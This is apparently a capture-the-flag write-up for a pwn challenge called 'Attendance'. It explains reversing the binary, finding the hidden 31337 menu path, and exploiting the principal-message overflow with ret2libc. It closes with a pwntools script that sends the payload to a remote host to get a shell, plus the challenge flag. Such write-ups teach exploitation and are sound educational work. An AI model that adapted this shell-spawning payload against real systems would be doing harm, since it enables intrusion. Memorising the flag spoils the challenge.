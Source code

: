 # Attendance

![](./img/1.png#center)

I will first look the file with binaryninja.

The main function :

![](./img/2.png#center)

You can see that the binary ask us an action. If I go down a little in the main function, I can see that the input I will give to the binary will be compared. For example if my entry is 2, then we’ll call student 2. If I enter 3, we’ll call student 3,…

![](./img/3.png#center)

So let’s try if it works :

![](./img/4.png#center)

We can see that it is working and that we are leaving the program directly. Let’s go back to examine the binary, a comparison draws my attention below the students in the main function :

![](./img/5.png#center)

If my entry is equal to 0x7a69(31337 in decimal) we jump to the function called « principal ». Let’s take a look at this function :

![](./img/6.png#center)

As you can see, we can leave a message with the principal, so we’re gonna try this :

![](./img/7.png#center)

The vulnerability will therefore be at the moment when we leave the message to the principal. I will now use the ret2libc vulnerability. To use this vulnerability we need:

->Padding + p system + p exit + p ‘/bin/sh’<-

after a while, I arrived at 41 in padding, to find the system and exit address I have to run the binary with gdb, put a breakpoint on the main. Then using these commands I get the addresses:
->p system<-
->p exit<-

![](./img/8.png#center)

Now I just need to find the address of the string « /bin/sh » in the binary. For that I go back to look around BinaryNinja and I look at the function bring_students_to_school, and I see my « /bin/sh », it only remains for me to find its address. With objdump I find the address of the function :

![](./img/9.png#center)

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *
import struct

p = remote("89.38.210.128", 31337)
Call = p.recvuntil("Call>")
print(Call)
payload ="31337"
p.send(payload)
p.recv(1024)
p.send("A"*41+p32(0xf7df67d0)+p32(0xf7de9b10)+p32(0x08048660))
p.interactive()
#cat /home/attendance/flag
#timctf{l1ttl3_th1ngs_m4k3_b1g_th1ngs_h4pp3n}
```

![](./img/10.png#center)